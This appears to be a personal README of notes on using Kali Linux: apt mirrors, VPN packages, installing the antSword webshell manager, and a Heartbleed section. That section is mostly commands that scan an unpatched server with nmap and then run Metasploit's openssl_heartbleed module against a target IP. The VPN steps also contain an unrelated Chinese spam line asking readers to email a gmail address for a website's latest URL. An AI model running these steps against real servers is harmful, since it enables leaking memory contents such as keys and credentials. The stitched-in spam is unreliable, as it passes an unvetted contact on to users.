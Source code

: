 #problem while using kali

## apt source.list
```
#tsinghua mirrors
deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main non-free contrib
#deb-src http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main non-free contrib

deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling-only main non-free contrib
#deb-src http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling-only main non-free contrib
```

## vpn 
1. `apt-get install network-manager-openvpn-gnome network-manager-pptp network-manager-pptp-gnome network-manager-strongswan network-manager-vpnc network-manager-vpnc-gnome`
2. restart the network-manager `service network-manager restart`
3. [获取网址]
如果您需要获取本站最新网址，可随时发任意邮件至  GreenDizhi@gmail.com  系统将自动回复最新网址到您的邮箱。

## heartbleed
nmap+msfconsole</br>

learn from http://blog.163.com/xiao106347/blog/static/215992078201464059117/

非常实用的hack工具组合，首先得升级msfconsole至最新版，然后给nmap添加一个针对heartbleed的扫描脚本，用来发现心脏出血漏洞：
```
cd /usr/share/nmap/scripts/
wget https://svn.nmap.org/nmap/scripts/ssl-heartbleed.nse
cd /usr/share/nmap/nselib/
wget https://svn.nmap.org/nmap/nselib/tls.lua
nmap --script-updatedb
```
添加成功之后扫描一个没有更新openssl的网站：
`nmap -n -p 443 -Pn --script=ssl-heartbleed servers_ip`
出现如下漏洞信息：

然后`msfconsole`载入 `auxiliary/scanner/ssl/openssl_heartbleed` 模块：
```
msf > use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS xxx_ip
set RPORT 443
set VERBOSE true
exploit
```

#

## antSword
项目地址：`https://github.com/antoor/antSword`
主要问题是安装过程：参照 http://my.oschina.net/blogshi/blog/260953 
```
    这就妥妥的了，node文件夹具体放在哪，叫什么名字随你怎么定。然后设置全局：

ln -s /home/kun/mysofltware/node-v0.10.28-linux-x64/bin/node /usr/local/bin/node
ln -s /home/kun/mysofltware/node-v0.10.28-linux-x64/bin/npm /usr/local/bin/npm

    这里/home/kun/mysofltware/这个路径是你自己放的，你将node文件解压到哪里就是哪里。

```

